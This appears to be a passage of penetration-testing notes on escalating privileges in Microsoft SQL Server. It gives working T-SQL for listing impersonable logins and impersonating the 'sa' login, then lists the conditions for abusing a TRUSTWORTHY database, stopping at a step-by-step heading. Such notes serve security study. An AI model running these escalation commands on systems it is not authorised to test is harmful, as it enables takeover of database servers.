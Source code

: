1. Enumerate all the logins our current login is allowed to impersonate
    
    ```sql
    SELECT name FROM sys.server_permissions
    JOIN sys.server_principals
    ON grantor_principal_id = principal_id
    WHERE permission_name = 'IMPERSONATE';
    ```
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/c9c9532d-10f1-45d5-93cf-d14a1d7b593f/image.png?table=block&id=1c385370-06ca-80d4-b72d-d94edd9149bc&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=Ibi-0-bEgwYKID1K_rVWug9Z6EhcI73rKQF17MFmmcc&downloadName=image.png)
    
    In this case, our login ws_dev is permitted to impersonate the logins ws_user and sa .
    
2. impersonate the sa login
    
    ```sql
    EXECUTE AS LOGIN = 'sa';
    SELECT SYSTEM_USER;
    SELECT IS_ROLEMEMBER('db_owner');
    ```
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/b2bac3e2-4969-4203-8c2d-efa2f279351c/image.png?table=block&id=1c385370-06ca-8009-880b-d892893aee57&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=KUkn6ckl6VoCbNGuElthE3mjk_y2iLK2tEB6MybuB2Y&downloadName=image.png)
    
3. Reverting changes
    
    After impersonating `sa` , all of the following T-SQL queries will execute under their context, until we issue the REVERT
    
    ![image.png](https://file.notion.so/f/f/2ab6ea37-5cd9-465e-a988-79fae76207cd/2e1ec37d-77fe-47a1-af0d-b36c4afc6050/image.png?table=block&id=1c485370-06ca-8030-83c8-f61e62ed546d&spaceId=2ab6ea37-5cd9-465e-a988-79fae76207cd&expirationTimestamp=1744516800000&signature=wbSeX0xODMDI4-5lRg256I4MdfwKH0D-cHIfKTtcqwk&downloadName=image.png)

---

## **🛡️ Abusing Trustworthy Databases in MSSQL**

### 🔍 What is "Trustworthy" in MSSQL?
The `TRUSTWORTHY` property of a SQL Server **database** indicates whether that database can be trusted to access server-level resources **beyond its scope**, such as modifying server roles or interacting with linked servers.

- **Default:** OFF (for security reasons).
- **Risk:** If **enabled**, and a **user with `db_owner` role** is compromised, it can lead to **server-level privilege escalation** (e.g., assigning `sysadmin` to any login).

### ✅ Requirements for the Attack
    
To successfully abuse a trustworthy database for privilege escalation:

1. **The database must be marked as `TRUSTWORTHY = ON`.**
2. **You must have control over an account with `db_owner` role** within that database.
3. **The server-level login corresponding to the user** must exist (or be creatable).
4. **The user executing the payload must be able to impersonate or escalate to the database owner** (which typically maps to a server-level principal).

### 🔎 Step-by-Step Breakdown
